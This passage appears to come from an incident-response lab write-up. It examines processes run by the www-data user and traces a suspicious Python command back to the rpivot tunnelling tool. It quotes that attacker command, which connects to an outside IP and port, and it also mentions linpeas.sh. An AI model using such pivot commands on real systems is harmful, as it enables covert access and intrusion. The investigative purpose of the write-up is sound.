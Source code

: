 ```bash
gedit all-www-data-processes.txt &
```

At the Top: uncommon commands prefixed with a `1` (e.g., `linpeas.sh`)*

![gedit](screenshots/gedit_all_www_data.png)


At the Bottom: frequent commands (e.g., `client.py`, `python3`)

![gedit](screenshots/gedit_all_www_data2.png)
>❓ *what is this Python Command `python3 client.py --server-ip 20.106.124.93 --server-port 8889` Doing?*

###🔍 Discovery: Suspicious Python Client Script

The command `python3 client.py --server-ip 20.106.124.93 --server-port 8889`  indicated a potential outbound connection to a remote host. To investigate further, open-source research was conducted.
---

### 🌐 Open Source Intelligence (OSINT)

A web search for `client.py --server-ip --server-port` led to the finding of a GitHub repository for `rpivot`.
